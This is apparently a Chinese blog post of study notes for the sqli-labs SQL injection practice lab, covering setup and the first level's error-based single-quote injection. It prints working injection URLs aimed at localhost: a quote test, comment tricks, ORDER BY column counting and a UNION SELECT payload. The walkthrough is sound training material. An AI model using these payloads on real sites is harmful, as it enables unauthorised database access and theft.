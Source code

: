 ```yaml
---
 title: Sqlilabs通关笔记(1-4)
 date: 2020-01-02 15:28:58
 tags: SQL注入
 categories:
---
```



## 环境搭建

## 用于SQL注入学习环境

1. [关卡源码下载地址](https://github.com/Audi-1/sqli-labs)，[美化页面下载地址](https://github.com/himadriganguly/sqlilabs)，
2. 用phpstudy或者web环境直接搭建运行


## 第一关 基于错误的GET单引号字符型注入
![2020-1-2-17-52-39](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-2-17-52-39)


### 存在注入点判断

1. 加上单引号报错
```
http://localhost/sqlilabs/practice/example1.php?id=1'
```

2. 加上注释符页面正常
```
http://localhost/sqlilabs/practice/example1.php?id=1' %23
```
    * 注释方式
        - \# 号注释
        - %23 注释 
        - --+ 注释
3. 判断字段数(使用order by)

```
http://localhost/sqlilabs/practice/example1.php?id=1'  order by 3%23 # 正常
http://localhost/sqlilabs/practice/example1.php?id=1'  order by 4%23 # 页面显示错误

说明字段数为3
```

4. 执行注入Payload
```
# 判断显示的信息点，通过id=-1来执行联合查询
http://localhost/sqlilabs/practice/example1.php?id=-1' union select 1,2,3%23
```

![2020-1-2-17-53-4](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-2-17-53-4)

